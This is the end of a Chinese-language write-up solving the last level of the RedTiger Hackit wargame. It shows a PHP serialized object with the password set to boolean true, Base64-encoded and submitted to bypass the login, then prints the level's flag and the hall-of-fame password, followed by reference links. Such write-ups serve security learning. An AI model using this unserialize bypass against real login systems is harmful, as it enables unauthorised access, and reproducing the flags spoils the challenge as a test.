 经过 序列化 后得到
```
a:2:{s:8:"username";s:9:"TheMaster";s:8:"password";b:1;}
```

在经过 `Base64` 加密。

```
login=YToyOntzOjg6InVzZXJuYW1lIjtzOjk6IlRoZU1hc3RlciI7czo4OiJwYXNzd29yZCI7YjoxO30=&dologin=Login
```

通关！

> Welcome TheMaster.
> You solved the hackit :)
> You can raise your wechall.net score with this flag: 721ce43d433ad85bcfa56644b112fa52
> The password for the hall of fame is: exec_is_safer_than_unserialize

终于将10关搞定。

> Congratulation. You solved all 10 levels of the hackit.
> If you want to put your name into the hall of fame you can use the form below.

## 参考网站
[1] [SQL 注入](https://ctf-wiki.github.io/ctf-wiki/web/sqli/)
[2] [SQL注入教程——（三）简单的注入尝试](http://blog.csdn.net/helloc0de/article/details/76142478)
[3] [Redtiger Hackit Writeup](https://blog.spoock.com/2016/07/25/redtiger-writeup/)
[4] [RedTiger libs writeup](http://ph0rse.me/2017/07/29/RedTiger-libs-writeup/)
[5] [RedTiger's Hackit](http://lucifaer.com/index.php/archives/19/)